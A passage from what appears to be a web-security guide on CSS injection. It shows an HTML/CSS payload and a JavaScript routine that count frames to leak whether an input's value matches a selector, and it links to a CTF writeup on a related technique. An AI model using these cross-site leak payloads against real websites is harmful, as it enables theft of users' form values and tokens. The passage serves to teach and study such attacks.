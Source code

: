 For **iframes**, you should use [`loading="lazy"`](https://developer.mozilla.org/en-US/docs/Web/Performance/Guides/Lazy_loading#images_and_iframes) and scroll them in or out of view. `<object>` tags the simplest way as shown below (make sure they actually render something like `about:blank`):

{% code title="HTML payload" %}
```html
<style>
  html:has(input[value^="S"]) #leak {
    display: none;
  }
</style>
<object id="leak" data=about:blank></object>
<object data=about:blank></object>
```
{% endcode %}

If the `input[value^="S"]` selector matches, the length will be 1. If it doesn't match, the length will be 2.

<pre class="language-javascript" data-title="Leak selector result"><code class="lang-javascript">function sleep(ms) {
  return new Promise(r => setTimeout(r, ms));
}
async function waitForLength(w) {
  while (true) {
    if (w.length > 0) return;
    else await sleep(0);
  }
}

async function leak(url) {
  const w = window.open(url);
  // After at least one object has loaded
  await waitForLength(w);
  // Wait a small bit for potentially the 2nd to load (if it's not `display: none`)
  await sleep(100);
  const length = w.length;
  w.close();
  // Check if the selector matched. If it's 2, didn't match
<strong>  return length === 1;
</strong>}
</code></pre>

***

Apart from frame counting, you can also detect the [`name=`](https://developer.mozilla.org/en-US/docs/Web/HTML/Reference/Elements/iframe#name) attribute of frames by accessing their name as a [property on `window`](https://developer.mozilla.org/en-US/docs/Web/API/Window#named_properties). Using this, you can make specific properties exist if a selector matches, multiple times. This was the solution to a CTF challenge where you needed to perform [#one-shot-using-contains-operator](css-injection.md#one-shot-using-contains-operator "mention") without external network connections:

[Another Another CSP  - justCTF writeup by @terjanq](https://gist.github.com/terjanq/3e866293610aa6c5629df4353e5d87d9#solution)
